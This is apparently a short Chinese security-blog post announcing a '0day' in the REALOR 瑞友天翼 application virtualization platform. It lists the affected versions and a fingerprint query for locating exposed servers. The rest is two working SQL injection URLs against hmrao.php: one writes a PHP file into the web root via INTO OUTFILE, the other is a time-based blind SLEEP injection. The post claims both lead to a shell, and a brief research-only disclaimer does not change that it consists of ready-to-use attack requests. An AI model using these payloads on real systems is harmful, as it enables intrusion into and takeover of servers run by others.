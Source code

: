 #  【0day】瑞友天翼应用虚拟化系统   
摸鱼sec  摸鱼Sec   2024-05-08 20:33  
  
**影响版本**  
```
version < 7.0.5.1
```  
  
  
**指纹**  
```
app.name="REALOR 瑞友天翼虚拟化平台"
```  
  
  
**sql注入1**  
```
http://xx.xx.xx.xx/hmrao.php?s=/Admin/appsave&appid=1%27);select%200x3c3f70687020706870696e666f28293b3f3e%20into%20outfile%20%27C:\Program%20Files%20(x86)\RealFriend\Rap%20Server\WebRoot\123.php%27%20--+
```  
  
  
**sql注入2**  
```
http://xx.xx.xx.xx/hmrao.php?s=/Admin/appdel&list=1111111%27%29%29%20AND%20%28SELECT%206312%20FROM%20%28SELECT%28SLEEP%285%29%29%29coHe%29%23
```  
  
  
俩个注入都可以shell![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/v1.3.10/assets/newemoji/Yellowdog.png "")  
，以上俩个漏洞均来自新一，欢迎各位师傅关注新一公众号。  
  
  
**仅供安全研究与学习之用，如用于其他用途，由使用者承担全部法律及连带责任，与本公众号无关。**  
  
